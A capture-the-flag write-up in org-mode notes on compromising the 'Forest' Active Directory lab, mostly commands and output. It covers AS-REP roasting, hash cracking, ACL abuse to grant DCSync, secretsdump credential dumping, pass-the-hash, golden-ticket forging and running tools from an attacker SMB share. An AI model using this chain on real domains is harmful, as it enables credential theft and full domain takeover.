

==
tags: #windows #active-directory #golden-ticket #Exchange-Windows-Permissions #asrep #dcsync

==

* nmap
  #+begin_src bat
  sudo nmap -sV -sC -oA nmap/forest.basic 10.129.5.238

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-03-17 11:06:55Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-03-17T04:07:01-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2026-03-17T11:06:58
|_  start_date: 2026-03-17T11:02:22
|_clock-skew: mean: 13h24m34s, deviation: 4h02m32s, median: 11h04m32s
  #+end_src
* smb as guest
 #+begin_src bat
 $ netexec smb 10.129.5.238 --shares
 SMB         10.129.5.238    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
 SMB         10.129.5.238    445    FOREST           [-] Error enumerating shares: Could not get nt error code 91 from impacket: SMB SessionError: unknown error code: 0x5b
														      
 $ nxc smb 10.129.5.238 -u 'guest' -p '' --shares
 SMB         10.129.5.238    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
 SMB         10.129.5.238    445    FOREST           [-] htb.local\guest: STATUS_ACCOUNT_DISABLED
							   
 $ nxc smb 10.129.5.238 -u 'guest33' -p '' --shares
 SMB         10.129.5.238    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
 SMB         10.129.5.238    445    FOREST           [-] Connection Error: The NETBIOS connection with the remote host timed out.
 #+end_src
** rpcclient
   #+begin_src bat
   rpcclient -U "" -N 10.129.5.238

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
   #+end_src
   extract just the usernames with sed:
   #+begin_src bat
   $ sed -n 's/^[^[]*\[\([^]]*\)\].*/\1/p' users.txt > usernames.txt
   #+end_src
** asreproasting
   #+begin_src bat
   nxc ldap 10.129.5.238 -u usernames.txt -p '' --asreproast asreproast.out

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.129.5.238    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:a86e03fa12e7dfafd411f9d91e5f06ef$1279b8c36b9cd1e68b4f6208589b91989874f8aa30ad8135fb84fcfde319981a938a674ddf79ba8785de169a026c0ce36fe1a1c933e6408c2541c09deb5847afa45943aa7f6be94fc94dec76403c79ccf6e0bfde9f64bd8e51d381abcb0ea7063c4028da6b1ead12881f99292025a36be313431eb1946e024111448a8b1da7c8b07f185449f7dc23c5897f4de3c98df3444bfb7b6bd5c0bbf1ca1c37b69a8c57a6a74c75c61f4eaca0530f0db0c68a6fa8c715002987073208234d28fd95614d17b9c937330f86127df47b94570cd27322eb5213e65165b31b64fe6a7116ce6ad8257710a404
   #+end_src
*** crack
    #+begin_src bat
    hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt 

s3rvice
    #+end_src
** smb
   #+begin_src bat
   nxc smb 10.129.5.238 -u 'svc-alfresco' -p 's3rvice' --shares
   #+end_src
   only the default ones are available
** evil-winrm
  #+begin_src 
  evil-winrm -i 10.129.5.238 -u 'svc-alfresco' -p 's3rvice'

,*Evil-WinRM* PS C:\Users\svc-alfresco> type Desktop\user.txt
68eba950f7c19d2af9e3a9f86f76f64b
  #+end_src
* privesc
** bloodhound 
   #+begin_src 
   rusthound-ce -u 'svc-alfresco' -p 's3rvice' -d 'htb.local' -c All --zip
   #+end_src
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-03-20_10-17.png @ 2026-03-20 10:17:55

** bloodyAD
   #+begin_src bat
   $ bloodyAD -d htb.local -u svc-alfresco -p 's3rvice' --dc-ip 10.129.95.210 add groupMember "Organization Management" svc-alfresco

[+] svc-alfresco added to Organization Management
   #+end_src
   #+begin_src bat
   $ bloodyAD -d htb.local -u svc-alfresco -p 's3rvice' --dc-ip 10.129.95.210 add groupMember "Exchange Trusted Subsystem" svc-alfresco

[+] svc-alfresco added to Exchange Trusted Subsystem
   #+end_src
** dcsync
   #+begin_src bat
   impacket-secretsdump -outputfile forest_hashes -just-dc htb.local/svc-alfresco:'s3rvice'@10.129.95.210 
   #+end_src
   permission issues
** kerberoast
   #+begin_src 
   bloodyAD -d htb.local --dc-ip 10.129.95.210 -u svc-alfresco -p 's3rvice' -k set object Administrator servicePrincipalName -v 'HTTP/PleaseSubscribe'
   #+end_src
   permission issues
* guided mode
  #+begin_src 
  Which group has WriteDACL permissions over the HTB.LOCAL domain?
  #+end_src
  #+begin_src bat
  ,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Get-DomainObjectAcl -Identity "DC=htb,DC=local" | Where-Object {($_.ActiveDirectoryRights -match "WriteDacl|GenericAll") -and ($_.SecurityIdentifier -notmatch "S-1-5-18|S-1-5-32-544")} | 
  Select-Object SecurityIdentifier, ActiveDirectoryRights
  SecurityIdentifier                             ActiveDirectoryRights
------------------                               ---------------------
  S-1-5-21-3072663084-364016917-1341370565-1121    DeleteTree, WriteDacl
  S-1-5-21-3072663084-364016917-1341370565-1121    DeleteTree, WriteDacl
  S-1-5-21-3072663084-364016917-1341370565-1104    GenericAll
  S-1-5-21-3072663084-364016917-1341370565-1119    GenericAll
  S-1-5-21-3072663084-364016917-1341370565-1119    WriteDacl
  S-1-5-21-3072663084-364016917-1341370565-1119    GenericAll
  S-1-5-21-3072663084-364016917-1341370565-1119    GenericAll
  S-1-5-21-3072663084-364016917-1341370565-512     CreateChild, Self, WriteProperty,
                                                   ExtendedRight, GenericRead, WriteDacl,
						   WriteOwner
  S-1-5-21-3072663084-364016917-1341370565-519     GenericAll
  #+end_src
  now let's look up the group names
  #+begin_src 
  PS > Convert-SidToName S-1-5-21-3072663084-364016917-1341370565-512
HTB\Domain Admins
  PS > Convert-SidToName S-1-5-21-3072663084-364016917-1341370565-519
HTB\Enterprise Admins
  PS > Convert-SidToName S-1-5-21-3072663084-364016917-1341370565-1119
HTB\Exchange Trusted Subsystem
  PS > Convert-SidToName S-1-5-21-3072663084-364016917-1341370565-1104
HTB\Organization Management
  PS > Convert-SidToName S-1-5-21-3072663084-364016917-1341370565-1121
HTB\Exchange Windows Permissions
  #+end_src
  turns out it's =Exchange Windows Permissions= (among others, but this is the accepted answer);
  let's add =svc-alfresco= to the group;
  #+begin_src bat
  bloodyAD -d htb.local -u svc-alfresco -p 's3rvice' --dc-ip 10.129.95.210 add groupMember "Exchange Windows Permissions" svc-alfresco
  #+end_src
* check replication rights
  #+begin_src bat
  PS > Get-DomainUser -Identity svc-alfresco |select samaccountname,objectsid,memberof,useraccountcontrol |fl

samaccountname     : svc-alfresco
objectsid          : S-1-5-21-3072663084-364016917-1341370565-1147
memberof           : CN=Service Accounts,OU=Security Groups,DC=htb,DC=local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH

  PS > $sid = "S-1-5-21-3072663084-364016917-1341370565-1147"

  PS > Get-ObjectAcl "DC=htb,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=htb,DC=local
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3072663084-364016917-1341370565-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=htb,DC=local
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3072663084-364016917-1341370565-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=htb,DC=local
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-32-544
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=htb,DC=local
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-32-544
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=htb,DC=local
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-32-544
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=htb,DC=local
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-9
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=htb,DC=local
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-9
ObjectAceType         : DS-Replication-Get-Changes
  #+end_src
* dcsync
** give rights to the user
   #+begin_src 
   PS > Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "svc-alfresco" -Rights DCSync
   #+end_src
** dump secrets
  #+begin_src 
  $ impacket-secretsdump 'htb.local/svc-alfresco:s3rvice@forest.htb.local' -just-dc
 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::  
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
<SNIP>
  #+end_src
** IMPORTANT
   kept running into this issue running impacket-secretsdump like so:
   #+begin_src 
   $ impacket-secretsdump htb.local/svc-alfresco:'s3rvice'@forest.htb.local -dc-ip 10.129.8.29
   
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
   #+end_src
   Gemini on why this failed but the version in the previous section worked:
   #+begin_src 
   Kerberos SPN (Service Principal Name) validation.

   When you run impacket-secretsdump, the tool has to authenticate and "bind" to the Directory
   Replication Service (DRS) on the Domain Controller. How you structure that command changes
   how the underlying RPC (Remote Procedure Call) connection identifies the target.

   1. The Naming Context (FQDN vs. IP)
   In your first command:
   'htb.local/svc-alfresco:s3rvice@forest.htb.local'

   What happened: Impacket used the hostname forest.htb.local to resolve the target.

   The Result: This allowed the Domain Controller to correctly map the incoming request to its
   internal Service Principal Name (SPN). Active Directory's replication service (DRSUAPI) is
   notoriously picky; it often expects the "Destination" of the replication request to match
   the DNS name registered in the AD database.

   2. The -dc-ip Conflict
   In your second command:
   htb.local/svc-alfresco:'s3rvice'@forest.htb.local -dc-ip 10.129.8.29

   What happened: By adding -dc-ip, you explicitly told Impacket: "Ignore DNS/NetBIOS
   resolution and go straight to this IP for all RPC calls."

   The Result: Even though you typed the hostname in the connection string, the actual network
   packets were addressed to the IP. In many Windows environments, if the RPC bind doesn't
   "handshake" with a name that matches the DC's certificate or registered SPN, the DC rejects
   the specific DRSBind request with that confusing 0x20f7 (Bad DN) error. It's essentially
   the DC saying, "I don't know who you think you're talking to at this IP, but it's not the
   replication authority for this domain."
   #+end_src
   NOTE: ippsec also faced this but in his case, it was because of an issue with the format
   of the command he used to add DCSync privs.
* pass the hash
  #+begin_src bat
  evil-winrm -i 10.129.8.29 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

  ,*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
0b8037e26986fc8b4a7a77618ed57c41
  #+end_src
* ippsec
  because this was done a few years ago i guess, the nmap output did not involve the domain
  name, etc. so he uses =ldapsearch=. more explanation re ldap on the following boxes:
  #+begin_src 
  ldap boxes - Ypuffy, Lightweight, Sizzle.
  #+end_src
** ldap query to get user data
   #+begin_src bat
   ldapsearch -h 10.129.8.29 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap
   #+end_src
** password list generation
   uses the fact that the password for a user was created in 2019 (also, the year when the
   machine was released) and adds 2019/2020 to the end of some common passwords including
   months, p@ssword, etc.
*** default hashcat rule
    #+begin_src 
    /usr/share/hashcat/rules/best64.rule; also toggles1
    #+end_src
    run multiple rules with =-r rule1 -r rule2= etc.
*** polenum
    this tool can be used to check the password policy (installed on kali by default)
** GetNPUsers
   uses =impacket-GetNPUsers= which does the following:
   #+begin_src
   Queries target domain for users with 'Do not require Kerberos preauthentication' set and
   export their TGTs for cracking
   #+end_src
   this is like an auto-asreproast i guess.
   NOTE: this tool should be added to the list of the first things to try on an AD box.
   #+begin_src bat
   impacket-GetNPUsers -dc-ip <ip> -request 'htb.local/' -format hashcat
   #+end_src
** uses impacket-smbserver to RUN winpeas
   share the current directory:
   #+begin_src bat
   impacket-smbserver PleaseSubscribe $(pwd) -smb2support -user ippsec -password password
   #+end_src
   create a drive on windows, but first create a ps credential object
   #+begin_src bat
   PS > $pass = convertto-securestring 'password' -AsPlainText -Force
   PS > $cred = New-Object System.Management.Automation.PSCredential('ippsec', $pass)
   PS > New-PSDrive -Name ippsec -PSProvider FileSystem -Credential $cred -Root \\10.10.16.71\PleaseSubscribe
   #+end_src
   once it connects (in a while), we can run the file directly
** bloodhound
   =Shortest path from Owned objects= shows =Exchange Windows Permissions= as the way to escalate
*** IMPORTANT
    this isn't evident from our bloodhound collector run; how do we fix this?
** Account Operators group
   turns out it's the svc-alfresco user's membership in this group that lets us add ourselves
   to the =Exchange Windows Permissions= group; (in the official solution they create a new user
   and add them instead)
*** create new user
    #+begin_src bat
    net user john password /add /domain
    #+end_src
*** add to the exchange group
     #+begin_src bat
     net group "Exchange Windows Permissions" john /add
     #+end_src
*** give DCSync rights with PowerView
    #+begin_src bat
,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 
    'abc123!' -asplain -force

,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object 
    system.management.automation.pscredential('htb\john', $pass)

,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john 
    Credential $cred -Rights DCSync

,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
    #+end_src
** Hashcat tip for cracking multiple user hashes
   the file should contain usernames and hahses separated by =:= and then run hashcat with the
   =--user= option; now once the hashes are cracked and we run with =--show=, it will show the
   usernames which were cracked.
** Golden Ticket
   this is another way to escalate and compromise the domain.
   use the krbtgt hash from the secretsdump run
   #+begin_src 
   krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
   #+end_src
*** get domain SID
    #+begin_src bat
    ,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Get-ADDomain

AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=htb,DC=local
DeletedObjectsContainer            : CN=Deleted Objects,DC=htb,DC=local
DistinguishedName                  : DC=htb,DC=local
DNSRoot                            : htb.local
DomainControllersContainer         : OU=Domain Controllers,DC=htb,DC=local
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-3072663084-364016917-1341370565
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=htb,DC=local
Forest                             : htb.local
InfrastructureMaster               : FOREST.htb.local
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=htb,DC=local}
LostAndFoundContainer              : CN=LostAndFound,DC=htb,DC=local
ManagedBy                          :
Name                               : htb
NetBIOSName                        : HTB
ObjectClass                        : domainDNS
ObjectGUID                         : dff0c71a-a949-4b26-8c7b-52e3e2cb6eab
ParentDomain                       :
PDCEmulator                        : FOREST.htb.local
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=htb,DC=local
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {FOREST.htb.local}
RIDMaster                          : FOREST.htb.local
SubordinateReferences              : {DC=ForestDnsZones,DC=htb,DC=local, DC=DomainDnsZones,DC=htb,DC=local, CN=Configuration,DC=htb,DC=local}
SystemsContainer                   : CN=System,DC=htb,DC=local
UsersContainer                     : CN=Users,DC=htb,DC=local
    #+end_src
**** via impacket-lookupsid from linux
     #+begin_src bat
     $ impacket-lookupsid htb.local/svc-alfresco:s3rvice@10.129.10.219 | grep "Domain SID"
[*] Domain SID is: S-1-5-21-3072663084-364016917-1341370565
     #+end_src
** ticketer
   #+begin_src bat
   impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local UserDoesNotExist

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/UserDoesNotExist                                                                 
[*]     PAC_LOGON_INFO                                  
[*]     PAC_CLIENT_INFO_TYPE                    
[*]     EncTicketPart
[*]     EncAsRepPart                
[*] Signing/Encrypting final ticket              
[*]     PAC_SERVER_CHECKSUM                                
[*]     PAC_PRIVSVR_CHECKSUM       
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in UserDoesNotExist.ccache 
   NOTE: this is not using the extraSIDs attack as shown in the modules;
   #+end_src
   #+begin_src 
   "always use the FQDN; unless it doesn't work, in which case use the not fully qualified 
    domain - htb in this case" - ippsec
   #+end_src
   export the ticket: 
   #+begin_src 
   $ export KRB5CCNAME=UserDoesNotExist.ccache
   #+end_src
** psexec
   #+begin_src 
   impacket-psexec htb.local/UserDoesNotExist@10.129.10.219 -k -no-pass -target-ip 10.129.10.219

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
   #+end_src
   this is because the user does not exist; so let's get the ticket for administrator instead
   #+begin_src bat
   impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local administrator

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache
   #+end_src
   after exporting:
   #+begin_src bat
   $ impacket-psexec htb.local/administrator@10.129.10.219 -k -no-pass -target-ip 10.129.10.219

[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
   #+end_src
   this remains the same even after removing the =-target-ip=; turns out we also need to get rid
   of the ip and use the hostname after the =@=
   #+begin_src bat
   $ impacket-psexec htb.local/administrator@forest.htb.local -k -no-pass

[*] Requesting shares on forest.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file AWwzwBkb.exe
[*] Opening SVCManager on forest.htb.local.....
[*] Creating service TmXt on forest.htb.local.....
[*] Starting service TmXt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
   #+end_src
   NOTE: we're =system= because we used =psexec=; if we used =wmiexec=, we'd be =administrator=
   #+begin_src bat
   $ impacket-wmiexec htb.local/administrator@forest.htb.local -k -no-pass

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
htb.local\administrator
   #+end_src
   ippsec was able to redo this with the =UserDoesNotExist= user after replacing the ip with
   the domain; however, I ran into some other issue possibly because the earlier connection
   was not closed correctly:
   #+begin_src bat
   $ export KRB5CCNAME=UserDoesNotExist.ccache
   $ impacket-psexec htb.local/UserDoesNotExist@htb.local -k -no-pass

[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.
   #+end_src
   however, it worked after changing the domain to just =forest=
   #+begin_src bat
   $ impacket-psexec htb.local/UserDoesNotExist@forest -k -no-pass 

[*] Requesting shares on forest.....
[*] Found writable share ADMIN$
[*] Uploading file RRRbTDFb.exe
[*] Opening SVCManager on forest.....
[*] Creating service YhRk on forest.....
[*] Starting service YhRk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
   #+end_src
   however, it still does not work with =wmiexec= (for ippsec also.)
